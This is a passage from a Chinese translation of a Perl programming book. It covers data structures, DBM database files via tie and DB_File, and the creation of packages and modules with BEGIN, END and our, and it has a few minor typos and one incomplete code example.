你可以通过指定元素来访问数组的哈希，像这样：

```perl
%hash = (
    fruits => ["apples", "oranges"],
    vegetables => ["corn", "peas", "turnips"],
    meats => ["chicken", "ham"],
);

print $hash{fruits}[0];
```

*apples*

另一方面，你也可以使用数组和哈希的处理技术来操作数组的哈希。下面是一个使用 **join** 函数将数组转换为字符串，并使用 **keys** 函数从哈希中获取键，从而打印整个数组的哈希的例子：

```perl
%hash = (
    fruits => ["apples", "oranges"],
    vegs => ["corn", "peas", "turnips"],
    meats => ["chicken", "ham"],
);

for $key (sort keys %hash) {
    print "$key:\t[", join(", ", @{$hash{$key}}), "]\n"
}
```

*fruits: [apples, oranges]*
*meats:  [chicken, ham]*
*vegs:   [corn, peas, turnips]*

## 使用链表和环形缓冲区

> 糟糕，新手程序员说，我只有 1KB 的 RAM 来存储数据，如果超过这个限制，系统就会挂起。嗯，你说，你可以尝试将数据存储在环形缓冲区中，它在固定内存量下处理数据非常高效。


利用本章中介绍的数据结构，你可以轻松创建一些标准数据结构，比如二叉树——即数据存储在与节点相连的分支中的数据结构，以及链表。链表由存储在元素中的数据组成，这些元素本身以列表的形式存储。每个元素都指向列表中的下一个元素（在双向链表中，还指向上一个元素），因此你可以逐个遍历链表中的元素。

链表的一种常见形式是环形缓冲区，它通过将链表首尾相连形成一个环。环形缓冲区使用两个元素索引来存储数据——一个头索引和一个尾索引。当你向环形缓冲区写入数据时，尾索引向前移动；当你从环形缓冲区读取数据时，头索引向前移动。当头索引和尾索引重合时，表示缓冲区为空。通过在读写数据时移动头索引和尾索引，环形缓冲区能够高效地利用内存（例如，IBM PC 及兼容机的按键记录就存储在环形缓冲区中，该缓冲区最多可存储 15 个按键，之后计算机会发出提示音）。

下面的示例展示了如何使用哈希数组创建一个包含四个元素的环形缓冲区（这意味着它最多可以存储三个数据项——如果你存储了四个数据项，尾索引将与头索引处于同一位置，而这与空缓冲区无法区分）。每个缓冲区元素（即数组元素）都是一个包含两个键的哈希——**data** 和 **next**。**data** 键对应于存储在该元素中的数据，**next** 则是在构成环形缓冲区的链表中下一个元素的数组索引。

以下是我创建环形缓冲区本身并将头索引和尾索引设置在同一位置（表示缓冲区为空）的代码：

```
$buffer[0]{next} = 1;
$buffer[0]{data} = 0;
$buffer[1]{next} = 2;
$buffer[1]{data} = 0;
$buffer[2]{next} = 3;
$buffer[2]{data} = 0;
$buffer[3]{next} = 0;
$buffer[3]{data} = 0;

$head = 0;
$tail = 0;
```

为了向环形缓冲区存储数据项，我创建了一个名为 **store** 的子程序。我将要存储的值传递给这个子程序。然后，子程序会检查缓冲区是否已满，如果已满则返回 false；否则，子程序存储数据项，将尾索引向前移动，并返回 true：

```
sub store
{
    if ($buffer[$tail]{next} != $head) { #Check: buffer full?

        $buffer[$tail]{data} = shift;
        $tail = $buffer[$tail]{next};

        return 1;

    } else {

        return 0;

    }
}
```

为了检索数据，我创建了一个名为 **retrieve** 的子程序。当我调用这个子程序时，它会检查环形缓冲区是否为空，如果为空则返回未定义值；否则，它返回缓冲区头索引处的值，并将头索引向前移动：

```
sub retrieve
{
    if ($head != $tail) {   # $tail == $head => empty buffer

        $data = $buffer[$head]{data};
        $head = $buffer[$head]{next};

        return $data;

    } else {

        return undef;

    }
}
```

下面的代码展示了如何使用 **store** 和 **retrieve** 来向缓冲区存入和读取值。请注意，尽管我尝试存储四个值，但缓冲区在存满三个后就满了，第四个值被忽略了：

```
store 0;
store 1;
store 2;
store 3;         #buffer full, value not stored

print retrieve, "\n";
print retrieve, "\n";
print retrieve, "\n";
```

## 将数据结构存储到磁盘

"嘿，"新手程序员说，"现在我已经创建了一个复杂的数据结构，怎样才能把它保存到磁盘上呢？我必须逐个部分地把它写出来吗？""你可以那样做，"你说，"但还有更简单的方法。"

你可以使用 CPAN 模块 **Storable** 将复杂的数据结构存储到磁盘上，该模块支持 **store** 和 **retrieve** 函数。在下面的示例中，我将一个二维数组写入磁盘，然后再读取回来：

```
use Storable;

@a1 = (
    ["apple", "orange"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
);

store (\@a1, "array.dat");

@a2 = @{retrieve("array.dat")};

print $a2[1][1];
```

*corn*

## 复制数据结构

"我有一个充满了引用的数据结构，"新手程序员说，"当我尝试创建该数据结构的独立副本时，副本中的所有引用都指向原始数据结构中的数据。我该怎么办？""你可以使用 CPAN 上的 **Storable** 模块来创建一个真正独立的副本，"你说。

当你复制一个包含引用的数据结构时，副本中的引用仍然指向原始结构中的数据，因此当你修改副本时，实际上是在修改原始数据。

下面的示例展示了这个问题。在本例中，我创建了一个二维数组，复制它，然后对副本进行修改。但是你可以看到，当我修改副本中的值时，原始数组也随之改变了：

```
@a1 = (
    ["apple", "orange"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
);
```

```
@a2 = @a1;
$a2[1][1] = "squash";
```

```
print $a1[1][1];
```

```
squash
```

你可以使用 **Storable** 模块中的 **dclone**（"深拷贝"）函数来创建数据结构的真正独立副本，如下例所示：

```
use Storable qw(dclone);
```

```
@a1 = (
    ["apple", "orange"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
);
```

```
@a2 = dclone(\@a1);
$a2[1][1] = "squash";
```

```
print $a1[1][1];
```

```
corn
```

## 打印数据结构

新手程序员晃悠过来说："这快把我逼疯了。"你问："什么把你逼疯了，NP？""嗯，"NP 说，"我有各种各样的数据结构，编写专门的打印代码快让我崩溃了。""你试过 **Data::Dumper** 吗？"你问。NP 精神一振问道："**Data::Dumper** 是什么？"

**Data::Dumper** 在第 14 章中有详细讨论，但这里我们也快速了解一下。

你可以使用 **Data::Dumper** 模块来打印从非常简单到非常复杂甚至包含自引用的数据结构。事实上，许多其他的 Perl 模块都使用 **Data::Dumper** 来展示数据。

以下是我使用 **Data::Dumper** 打印一个二维数组的示例：

```
use Data::Dumper;

@array = (
    ["apples", "oranges"],
    ["asparagus", "corn", "peas"],
    ["ham", "chicken"],
);

print Data::Dumper->Dump([\@array], [*array]);

@main::array = (
    [
        'apples',
        'oranges'
    ],
    [
        'asparagus',
        'corn',
        'peas'
    ],
    [
        'ham',
        'chicken'
    ]
);
```

以下是打印哈希的哈希的示例：

```
use Data::Dumper;

%hash = (
    fruits => {
        favorite => "apples",
        'second favorite' => "oranges",
    },
    vegetables => {
        favorite => "corn",
        'least favorite' => "turnip",
        'second favorite' => "peas",
    },
    meats => {
        favorite => "chicken",
        'second favorite' => "beef",
    },
);

print Data::Dumper->Dump([\%hash], [*hash]);

%main::hash = (
    'meats' => {
        'favorite' => 'chicken',
        'second favorite' => 'beef'
    },
    'vegetables' => {
        'favorite' => 'corn',
        'least favorite' => 'turnip',
        'second favorite' => 'peas'
    },
    'fruits' => {
        'favorite' => 'apples',
        'second favorite' => 'oranges'
    }
);
```

如你所见，**Data::Dumper** 可以快速地打印复杂的数据结构。

| 相关解决方案： | 所在页码： |
|:------------------|:---------------|
| Data::Dumper 显示结构化数据 | 609 |

## 创建数据结构类型

编程正确性沙皇正在批评 Perl 无法创建 C 风格的 **struct**。"它们非常好用，"PCC 说，"你只需使用 **struct** 创建一个类型，然后创建该类型的变量，就可以定义自己的复杂数据类型了。""在 Perl 中也可以做到，"你说，"事实上，有很多种方法。"

正如你在第 9 章中所看到的，在 Perl 中你可以使用返回匿名哈希的子程序来模拟用户自定义数据类型。例如，假设你想定义一个名为 **record** 的新数据类型，它有三个字段：**value**，用于存放数值；**max**，用于存放 **value** 的最大可能值；以及 **min**，用于存放最小可能值。在 C 中，你可以创建一个 **struct** 类型；在 Perl 中，你可以创建一个返回匿名哈希的子程序：

```
sub record
{
    ($value, $max, $min) = @_;

    if ($value >= $min && $value <= $max){
        return {
            value => $value,
            max => $max,
            min => $min,
        };
    } else {
        return;
    }
}
```

要创建一个 **record** 类型的变量，你只需调用名为 **record** 的子程序，并将返回的匿名哈希赋值给一个标量，如下所示（这段代码看起来很像在其他语言中初始化用户自定义变量的方式）：

```
$myrecord = record(100, 1000, 10);
```

现在，你可以通过名称来引用这个新记录的字段，如下所示：

```
$myrecord = record(100, 1000, 10);
print $myrecord->{value};
```

```
100
```

正如你在第 14 章中所看到的，你可以使用 **Class::Struct** 模块来创建 C 风格的 **struct**。假设你想跟踪各种食品杂货的名称和数量。你可以先使用 **Class::Struct** 创建一个如下结构：

```
use Class::Struct;

struct( produce => {
        vegetable => item,
```


## 第16章 数据结构与数据库

```
            fruit => item,
});
```

这里，我正在创建一个名为 **produce** 的用户自定义类型，它由两个元素组成——**vegetable** 和 **fruit**——它们本身实际上都是 **item** 用户自定义类型。这些 item 类型则存储蔬菜或水果的名称和数量，如下所示：

```
struct( item => [
        name  => '$',
        number => '$',
]);
```

请注意前一个示例中的语法。在这种情况下，`name` 和 `number` 都是标量，我用 `$` 来表示。你使用像这样的前缀解引用来指示你正在数据结构中存储的元素类型。例如，要存储一个数组（实际上是对数组的引用），你会使用 `@`。

现在，我可以创建一个 `produce` 类型的新对象：

```
my $grocery = new produce;
```

以下是我如何设置特定水果的名称和数量的方法：

```
$grocery->fruit->name('bananas');
$grocery->fruit->number(1000);
```

现在，你可以简单地将这些值引用为 **$grocery->fruit->number** 和 **$grocery->fruit->name**，像这样：

```
print "Yes, we have ", $grocery->fruit->number, " ",
    $grocery->fruit->name, ".";
```

> *是的，我们有1000根香蕉。*

通过这种方式，你可以构建相当复杂的数据结构，就像在 C 语言中一样。

| 相关解决方案： | 所在页码： |
| --- | --- |
| 用匿名哈希模拟用户自定义数据类型 | 392 |
| Class::Struct 创建 C 风格的结构 | 606 |

## 编写数据库文件

大老板出来说：“我们需要一个客户数据库，这样我们就可以给他们发送未经请求的电子邮件。” “但是，”你说，“你认为客户会喜欢收到未经请求的电子邮件吗？” “这是数据，”大老板说，递给你一叠厚厚的纸。 “嗯，”你说，“我想我可以创建一个 DBM 数据库。”

Perl 支持一种非常易于使用的数据库文件类型：DBM（数据库管理）文件。在旧版本的 Perl 中，你过去使用像 **dbmopen** 和 **dbmclose** 这样的函数来操作 DBM 文件；然而，这些函数已被 **tie** 函数所取代（我们将在第 19 章介绍面向对象编程时更深入地了解如何使用 **tie**）：

```
tie VARIABLE, CLASSNAME, LIST
```

你可以使用这个函数将一个哈希与磁盘上的 DBM 文件连接，或 *关联*。在本章的引言部分，我们回顾了你可以使用的各种数据库类，具体取决于你系统中安装了什么：**ODBM**、**NDBM**、**SDBM**、**GDBM** 和 **BSD-DB**。每个类都通过一个模块支持，该模块的类名后附加了 **_File**，例如 **NDBM_File**（**BSD-DB** 通过 **DB_File** 模块支持；**DB_File** 支持使用 **tie** 而不是通常与 Berkeley DB 一起使用的 **dbmopen** 和 **dbmclose** 来访问 Berkeley DB 文件）。有关这些类的比较，请参阅本章“深入探讨”部分的表 16.1。

DBM 文件是基于哈希的。你将一个文件关联到一个哈希，将你的数据放入该哈希，并将其存储在磁盘上。在下一个示例中，我使用 **NDBM** 数据库类将一个哈希关联到一个新的数据库文件。我在此示例中包含 **Fcntl** 模块，以便能够使用符号常量 **O_CREAT**（必要时创建文件）、**O_RDWR**（以读写模式打开文件）等。可能的值包括 **O_APPEND**、**O_ASYNC**、**O_CREAT**、**O_DEFER**、**O_EXCL**、**O_NDELAY**、**O_NONBLOCK**、**O_SYNC** 和 **O_TRUNC**：

```
use Fcntl;
use NDBM_File;

tie %hash, "NDBM_File", 'data', O_RDWR|O_CREAT|O_EXCL, 0644;
```

在这种情况下，我将值 **'root beer'** 与键 **'drink'**、值 **'turkey'** 与键 **'meat'** 等存储在哈希中，然后取消哈希的关联以关闭数据库文件：

```
use Fcntl;
use NDBM_File;

tie %hash, "NDBM_File", 'data', O_RDWR|O_CREAT|O_EXCL, 0644;
```

### 即时解决方案


## 读取数据库文件

前面的代码创建了文件 `data.pag`（默认文件扩展名（如果有的话）会因你使用的数据库类而异），其中包含我创建的哈希。

就是这样。你现在知道如何将数据库存储在磁盘上了。要学习如何读取数据，请参阅下一个主题。

> **提示：** 请注意，你仍然可以在 Perl 中使用 **dbmopen** 和 **dbmclose** 来操作数据库文件，尽管这些函数已被 **tie** 函数所取代。有关更多详细信息，请参阅本章的“深入探讨”部分。

“嗯，”大老板说，“现在你创建了一个新的数据库文件。这非常好。” “很高兴能帮上忙，”你说。 “只有一个问题，”大老板说。“既然所有数据都在数据库文件里，我们到底怎么才能把它取回来呢？” “哦，”你说。

为了读取我在上一个主题中创建的数据库文件，我将按照以下代码所示，将一个哈希关联到该文件。如你所见，我在此处包含 **Fcntl** 模块，以便能够使用符号常量 **O_RDWR** 等。可能的值包括 **O_APPEND**、**O_ASYNC**、**O_CREAT**、**O_DEFER**、**O_EXCL**、**O_NDELAY**、**O_NONBLOCK**、**O_SYNC** 和 **O_TRUNC**：

```
use Fcntl;
use NDBM_File;

tie %hash, "NDBM_File", 'data', O_RDWR, 0644;
```

现在，我可以自由地打印 **hash** 中的值，并 **untie** 它来关闭文件：

```
use Fcntl;
use NDBM_File;

tie %hash, "NDBM_File", 'data', O_RDWR, 0644;

while(($key, $value) = each(%hash)) {
    print "$key => $value\n";
}
untie %hash;
```

```
dessert => blueberry pie
drink => root beer
meat => turkey
```

就是这样。现在你已经读取并使用了一个数据库文件。恭喜你！你是一名数据库程序员了。

> **提示：** 请注意，你仍然可以在 Perl 中使用 **dbmopen** 和 **dbmclose** 来操作数据库文件，尽管这些函数已被 **tie** 函数所取代。有关更多详细信息，请参阅本章的*深入探讨*部分。

## 排序数据库

大老板又回来了，说：“新的数据库系统很好，但还有一个问题。我们现在已经输入了所有 40,000 名员工的数据，是时候打印所有记录了。但不知为何，所有记录都是随机顺序出来的。” 你笑了。“这就是 Perl 哈希的特点，”你说。“它们使用自己的内部顺序。” “太棒了，”大老板说，“把数据库按字母顺序排序。”

对于标准哈希，你可以使用 **Tie::IxHash** 模块来保持哈希有序，但这对 DBM 哈希不起作用。然而，如果你使用 **DB** 类的 **$DB_TREE** 绑定成员来指定一个比较函数，你可以保持 **DB** 数据库排序，如下所示：

```
use DB_File;
use Fcntl;

$DB_BTREE->{'compare'} = sub {
    shift cmp shift ;
};
```

接下来，我将一个数据库文件关联到一个哈希，在必要时创建文件，并将 **$DB_TREE** 成员也传递给 **tie**：

```
use DB_File;
use Fcntl;

$DB_BTREE->{'compare'} = sub {
    shift cmp shift ;
};

tie(%hash, "DB_File", 'sorted', O_RDWR|O_CREAT|O_TRUNC, 0644, $DB_BTREE)
    or die "Can not tie file.";
```

现在，我可以将数据存储在哈希中，并且它将始终使用我指定的比较函数进行排序，如你所见：

```
use DB_File;
use Fcntl;

$DB_BTREE->{'compare'} = sub {
    shift cmp shift ;
};

tie(%hash, "DB_File", 'sorted', O_RDWR|O_CREAT|O_TRUNC, 0644, $DB_BTREE)
    or die "Can not tie file.";

$hash{drink} = 'root beer';
$hash{meat} = 'turkey';
$hash{dessert} = 'blueberry pie';

while(($key, $value) = each(%hash)) {
    print "$key => $value\n";
}

untie %hash;
```

```
dessert => blueberry pie
drink => root beer
meat => turkey
```

| 相关解决方案： | 所在页码： |
| --- | --- |
| Tie::IxHash 按插入顺序恢复哈希值 | 631 |

## 将文本文件视为数据库

如果你使用 **DB_File** 模块，甚至可以将文本文件视为数据库。例如，假设你有一个文本文件 `file.txt`，其内容如下：

```
Here's
some
text.
```

使用 **DB_File**，你可以将一个数组（不是哈希）关联到此文件，使得文本文件中的每一行对应于数组中的一个元素。你可以通过将数组关联到文件来实现这一点，如以下示例所示。请注意，我将 **DB_File** 成员 **$DB_RECNO** 传递给 **tie**：

```
use DB_File;
use Fcntl;

tie(@array, "DB_File", "file.txt", O_RDWR|O_CREAT, 0644, $DB_RECNO)
    or die "Can not open file.";
```

此时，文本文件的各行已在 **@array** 中，你可以根据需要处理它们。你甚至可以添加新行，如下所示：

```
use DB_File;
use Fcntl;

tie(@array, "DB_File", "file.txt", O_RDWR|O_CREAT, 0644, $DB_RECNO)
    or die "Can not open file.";

$array[3] = "Some new text!";

untie @array;
```

执行此代码后，`file.txt` 将包含以下文本：

```
Here's
some
text.
Some new text!
```

## 执行 SQL

如果你使用 CPAN **DBD** 和 **DBI** 模块连接到商业数据库程序，你可以执行 SQL。**DBD** 模块包含数据库驱动程序，你需要一个适用于你要使用的数据库程序的驱动程序（例如，Sybase 或 Oracle）。**DBI** 模块包含实际的接口代码。该模块发布相对较新，不再是 alpha 或 beta 格式。你使用 **DBI connect** 方法连接到数据库。如果你的 SQL 命令不返回数据行（例如 **SELECT** SQL 语句可能返回），你可以使用 **do** 方法执行命令。如果你的命令返回数据行，你首先使用 **prepare** 方法，然后使用 **execute** 方法。完成数据库操作后，使用 **disconnect** 方法断开连接。


# 第17章

## 创建包和模块

| 如果你需要快速了解以下问题： | 请参阅： |
| --- | --- |
| 创建包 | 734 |
| 创建包构造器：**BEGIN** | 735 |
| 创建包析构器：**END** | 736 |
| 确定当前包的名称 | 737 |
| 跨文件边界拆分包 | 738 |
| 使用 **our** 在包间设置全局作用域 | 739 |
| 创建模块 | 740 |
| 默认从模块导出符号 | 741 |
| 允许从模块导出符号 | 742 |
| 防止自动导入符号 | 743 |
| 防止符号导出 | 743 |
| 在不使用 **import** 方法的情况下导出 | 745 |
| 使用编译时未知的包名限定符号 | 746 |
| 重定义内置子程序 | 748 |
| 创建嵌套模块 | 749 |
| 设置和检查模块版本号 | 750 |
| 模块中子程序的自动加载 | 751 |
| 使用 **AUTOLOAD** 模拟子程序 | 754 |
| 使用 **AutoLoader** 和 **SelfLoader** | 755 |
| 使用 **h2xs** 创建专业模块和模块模板 | 757 |
| 测试你的模块 | 760 |
| 压缩模块以供分发 | 762 |
| 将模块提交至 CPAN | 762 |
| **XS**—使用 C 创建 Perl 扩展 | 763 |
| 向 **XSUBs** 传递值 | 766 |
| 从 **XSUBs** 返回列表 | 768 |

# 第17章 创建包和模块

## 深入探讨

隐私是编程中的一个重大问题，Perl 通过允许你将程序划分为半自主的空间来提供一定程度的隐私，这样你就不必担心与程序其余部分的干扰。为了划分程序，你可以使用 Perl *包*，它在 Perl 中创建*命名空间*。什么是命名空间？它是一个为标识符提供自己的全局作用域的空间；换句话说，它充当一个私有的编程空间。

事实上，Perl 中并不存在任何真正的“全局”作用域；全局作用域实际上是指*包*作用域。当你创建包时，你可以有把握地认为你的代码不会干扰其他代码中的变量或子程序，因此你可以将打算重用的代码放入包中。

除了包，你还可以创建模块，这是特殊的包，可以轻松加载并与其他代码良好集成；以及类，它们构成了面向对象编程的基础。本章我们将介绍包和模块，下一章介绍类。

## 包

你可以将一个包的代码放在它自己的文件中，也可以放在多个文件中，甚至可以在同一个文件中创建多个包。要切换到另一个包（从而进入新的命名空间），你需要使用 **package** 语句。以下是一个我存储在文件 package1.pl 中的包的示例：

```
package package1;

BEGIN { }

sub subroutinel {print "Hello!\n";}
return 1;

END { }
```

你使用 **package** 语句切换到新包 **package1**。

注意上面示例中的 **BEGIN** 和 **END** 子程序；**BEGIN** 子程序可以包含初始化代码，在包中首先被调用；而 **END** 子程序可以包含清理代码，在包中最后被调用。**BEGIN** 和 **END** 是 Perl 中隐式调用的子程序（也就是说，它们由 Perl 调用，由于是隐式调用，按照惯例它们的名称全部大写）；对于这些特殊的子程序，**sub** 关键字是可选的。

还请注意，我在这个包中定义了一个子程序 **subroutine1**；Perl 可以从使用这个包的代码中访问到这个子程序。

你可能还注意到这段代码返回了一个真值（即语句返回 **1;**）来向 Perl 指示包代码已成功加载并准备运行。（你经常会在包和模块的最后一行看到简写为 **1;**，这与返回真值是一样的，因为最后计算的值就是包或模块返回的值。我通常更喜欢更清晰的 return **1;**。）

要利用这个包中的代码，你可以在程序中这样使用 **require** 语句：

```
require 'package1.pl';
```

现在，你可以通过包名加上包分隔符 **::** 来限定 **package1** 中的标识符，如下所示：

```
require 'package1.pl';

package1::subroutine1();

Hello!
```

> **注意：** 在过去，包分隔符是单引号 '，但现在已改为 :: 以遵循其他语言的惯例。

你也可以将其他标识符（如变量）放入包中：

```
package package1;

BEGIN { }

$variable1 = 1;
sub subroutine1 {print "Hello!\n";}
return 1;

END { }
```

要在其他代码中引用此变量，你可以使用正常的前缀解引用符号，如 **$**，像这样：**$package1::variable1**（注意，你不能访问用 **my** 声明的词法变量，它们对模块是私有的）：

```
require 'package1.pl';

package1::subroutine1();

print $package1::variable1;
```

*Hello!*
1

默认的包是 **main**，因此如果你省略包名，Perl 会使用 **main**，这意味着 **$main::variable1** 与 **$::variable1** 相同。

事实上，你可以自动将像 **subroutine1** 这样的名称*导出*到当前代码的命名空间中，这意味着你不必使用包名来限定该子程序的名称。为此，你需要使用*模块*。

## 模块

模块就是存储在单个文件中的包，文件名与包名相同，扩展名为 .pm。Perl 惯例是将模块名称的首字母大写。模块中的代码可以将其符号导出到你使用该模块的代码的符号表中，因此你不必使用模块名来限定这些符号。

例如，我创建了一个名为 **Module1** 的模块，存储在名为 Module1.pm 的文件中，它使用 Perl 的 **Exporter** 模块来导出一个子程序 **subroutine1**，如下所示：

```
package Module1;

BEGIN {
    use Exporter();
    @ISA = qw(Exporter);
    @EXPORT = qw(&subroutine1);
}

sub subroutine1 {print "Hello!\n";}
return 1;
END { }
```

当你在代码中使用 **require** 语句来加载一个包时，该包在运行时加载；但是，当你在代码中使用 **use** 语句时，该包会立即加载。（使用 **use** 和 **require** 加载的文件的默认扩展名都是 .pm。）有关 **use** 和 **require** 之间区别的更详细信息，请参阅第14章的“深入探讨”部分。

例如，我将 **Module1** 添加到另一个程序中，并调用自动导出的子程序 **subroutine1**，如下所示：

```
use Module1;
subroutine1();
```

*Hello!*

关于包还有更多内容：你可以嵌套包，允许符号被导出同时不默认导出它们，甚至可以使用 **AUTOLOAD** 子程序来调用一个实际上不存在的子程序。

事实上，你可以使用一个名为 **h2xs** 的 Perl 工具来创建模块模板，本章我将向你展示如何操作。使用 **h2xs** 开发的模块可以经过标准的模块安装流程（有关所有细节，请参阅第14章中的“安装模块”主题）：

```
%perl Makefile.PL
%make
%make test
%make install
```

> *提示：**h2xs** 可能未安装在你的系统上；如果没有，请咨询你的系统管理员（如果你有的话）。*

使用 **h2xs**，你可以创建足够专业的模块以提交到 CPAN。事实上，这些模块甚至可以支持针对特定平台的二进制代码，我们也会在这里看到如何操作。在本章中，我将编写 C 代码，这些代码将被编译并作为模块的一部分被调用，从而为我们提供一个从 Perl 调用 C 代码的简单接口。

我们将在“快速解决方案”中看到所有这些内容以及更多内容。

## 快速解决方案

## 创建包

> “哇，”新手程序员说，“我的程序 SuperDuperWhopperCode 里变得有点拥挤了。我发现自己正在使用我已经用过的变量和子程序名称。” “这是一个常见问题，”你说，“有一个常见的解决方案；只需创建一个新包。”

要创建或切换到一个包，你需要使用 **package** 语句：

```
package
package NAMESPACE
```

**package** 语句将你切换到一个命名空间——即一个全局符号空间——用于指示的包。

如果你没有指定包的名称，那么在 Perl 看来就没有当前包，你必须使用它们的包名来完全限定所有符号名称。

> **提示：** 这比 *use strict* 编译指示更严格，因为甚至子程序名称也必须被限定。

你可以在同一个文件中声明多个包，也可以将一个包分散在多个文件中，但通常每个文件存储一个包。在下面的示例中，我将一个名为 **package1** 的包存储在名为 package1.pl 的文件中，该文件包含以下内容（注意我返回了一个真值来指示包已成功加载）：

```
package package1;
sub subroutine1 {print "Hello!\n";}
return 1;
```

要从另一个包的代码中访问此包中的代码，你可以使用 **require** 语句。（默认情况下，**require** 假定你要求的文件扩展名为 .pm，因此如果这不是事实，你必须提供完整的文件名。）

**require** 语句在运行时添加所需文件的代码，而不是在编译时。在你 require 了一个包之后，你就可以引用该包中的符号。


只需通过使用包名和包分隔符 `::` 来完全限定这些符号名称，即可调用其他包中的子程序，如下所示：

```
require 'package1.pl';
package1::subroutine1();
```

Hello!

包并不需要存储在单独的文件中。我完全可以在一个文件中完成与前面代码相同的操作，因为当 Perl 遇到 **package** 语句时，会自动切换到新的命名空间（请注意，由于 **package1** 与主程序在同一文件中，我不再需要从 **package1** 返回一个真值给包加载器）：

```
package1::subroutine1();              #subroutine1 called in package main
package package1;                       #subroutine1 defined in package package1
sub subroutine1 {print "Hello!\n";}
```

Hello!

包的符号表存储在一个与包名相同的哈希中，并附加包分隔符，像这样：**package1::**。

> **提示：** 尽管包定义了一个新的命名空间，但 Perl 实际上将所有包的符号（以字母或下划线开头的符号除外）都保存在主符号表中，即 **main::**。

## 创建包构造函数：BEGIN

"包太酷了，"新手程序员说道。"我只有一个问题：我讨厌必须在包中的子程序里初始化包中使用的变量，"新手程序员说，"我有这么多子程序，根本不知道哪个会被最先调用。""你可以轻松地在包中初始化变量和代码，"你说，"只需使用 **BEGIN** 子程序即可。"

要初始化包中的代码，你可以使用 **BEGIN** 子程序，它在代码编译时运行（甚至在 Perl 解析文件其余部分之前）。借用面向对象编程的术语，**BEGIN** 被称为*包构造函数*。

你可以使用 **BEGIN** 来初始化包，就像本例中，我将包变量 **$variable1** 赋值为 "Hello!\n"（请注意，**BEGIN** 前面的关键字 **sub** 是可选的）：

# 第17章 创建包和模块

```
package package1;

sub BEGIN
{
    $text = "Hello!\n";
}

sub subroutine1 {print $text}

return 1;
```

Perl 运行 **BEGIN** 子程序后，会立即将该子程序移出作用域（顺便说一句，这意味着你永远不能自己调用 **BEGIN**；它只能由 Perl 隐式调用）。

现在我已经初始化了 **$text** 变量，我可以在调用 **package1** 中代码的代码中使用它：

```
require 'package1.pl';
package1::subroutine1();
```

*Hello!*

由于 **BEGIN** 运行得非常早，如果你想使用原型，这里是放置包中子程序原型的好地方。事实上，pragma（编译指令）通常使用 **BEGIN** 子程序在 Perl 中实现，因为它们在其他所有内容之前运行，因此可以影响编译器。

让我最后补充一点：你甚至可以在一个包中使用多个 **BEGIN** 子程序。如果你这样做，它们将按照 Perl 遇到它们的顺序执行。

## 创建包析构函数：END

> "这些 **BEGIN** 子程序太棒了，"新手程序员说。"我可以在包被其他包实际调用之前初始化其中的代码，"新手程序员说。"但是，当我的包全部完成后，我可以执行代码清理吗？""当然，"你说，"只需使用 **END** 子程序即可。"

正如你使用 **BEGIN** 来初始化包一样，你也可以在包中使用 **END** 子程序来运行最后一段代码（即 Perl 解释器退出时），以清理和关闭你可能已打开的资源。（然而，不要指望 **END** 一定会被调用，因为你的程序可能在 Perl 执行到 **END** 之前就异常终止了）。**END** 子程序被称为*包析构函数*。

在下面的示例中，我从 **END** 子程序中打印一条消息：

```
package package1;

sub BEGIN
{
    $text = "Hello!\n";
}

sub subroutine1 {print $text}
return 1;

sub END
{
    print "Thank you for using package1!\n";
}
```

并且，当 **END** 被调用时，我得到以下结果：

```
require 'package1.pl';
package1::subroutine1();

Hello!
Thank you for using package1!
```

你也可以在一个文件中有多个 **END** 子程序；它们按照定义的相反顺序执行（因此它们会与较早的 **BEGIN** 子程序相匹配）。

还要注意，**END** 子程序中的变量 **$?** 保存了脚本即将退出时的值，你可以在 **END** 中为其赋值。（因此，你应该注意在 **END** 中使用会自动为 **$?** 赋值的语句，例如系统调用。）

## 确定当前包的名称

> "我现在有这么多包，有时候都搞不清了，"新手程序员说。"没问题，"你说。"你随时可以通过使用 `__PACKAGE__` 标识符来知道你在哪个包中。"

你可以使用内置标识符 **`__PACKAGE__`** 来确定当前包的名称。例如，我可以在 **package1** 中的子程序 **subroutine1** 里打印当前包名，如下所示：

# 第17章 创建包和模块

```
package package1;

BEGIN { }

sub subroutine1 {print __PACKAGE__;}
return 1;

END { }
```

当我调用 **subroutine1** 时，我得到以下结果：

```
require 'package1.pl';
package1::subroutine1();
```

```
package1
```

## 跨文件边界拆分包

> "糟糕，"新手程序员说，"我正在编写一个相当大的包 SuperDuperWhopperPackage.pl，结果我的代码编辑器内存不足了。它处理不了那么大的文件。""嗯，"你说，"你为什么不把包拆分到多个文件中呢？"新手程序员问道，"我能做到吗？"

你可以很容易地看到如何在同一个文件中创建多个包；你只需根据需要多次使用 **package** 语句即可。但是，如何跨文件边界拆分一个包呢？

这个任务同样很容易；你只需使用 **package** 语句在两个或更多文件中声明同一个包即可。例如，假设我在文件 file1.pl 中有以下代码，定义了一个名为 **hello** 的子程序（请注意，我将当前包设置为 **package1**）：

```
package package1;

BEGIN {}

sub hello{print "Hello!\n";}
return 1;

END {}
```

我可以在第二个文件 file2.pl 中，也将包设置为 **package1** 并定义一个名为 **hello2** 的子程序：

```
package package1;

BEGIN {}

sub hello2{print "Hello again!\n";}
return 1;

END {}
```

现在，我可以在代码中同时 require file1.pl 和 file2.pl，并使用定义在这两个文件中的同一个包 **package1** 里的 **hello** 和 **hello2**：

```
require 'file1.pl';
require 'file2.pl';
```

```
package1::hello();
package1::hello2();
```

```
Hello!
Hello again!
```

如你所见，文件边界并不一定是包边界。Perl 并不反对你将包拆分到不同的文件边界上，只要你使用 **package** 语句明确指定你希望代码所属的包即可。

## 使用 **our** 在包之间设置全局作用域

新手程序员说："我有个问题。我有一些变量想在文件中设为全局变量，但它们在该文件的不同包中。我该怎么办？""没问题，"你说，"你可以使用 **our** 声明。"

**our** 在 Perl v5.6.0 中引入，用于声明变量在所在的块、文件或 **eval** 语句中为有效的全局变量。这类声明与 **my** 语句的不同之处在于它不创建局部变量。这一点通过例子最容易理解；如你所知，包定义了自身的作用域，因此如果你像这样在包中声明一个变量，

```
package package1;
$data = 7;
```

那么它在另一个包中将不可用，像这样（请注意，这里的结果是 "**$data** = "，因为 **$data** 在第二个包中不在作用域内）：

# 第17章 创建包和模块

```
package package1;
$data = 7;

package package2;
print "\$data = " . $data;

$data = 
```

另一方面，你可以使用 **our** 声明使 **$data** 在整个文件及其所有包中成为全局变量：

```
package package1;
our $data;
$data = 7;

package package2;
print "\$data = " . $data;
```

当你运行这个示例时，你会看到 **$data** 现在在第二个包中也在作用域内了：

```
$data = 7
```

## 创建模块

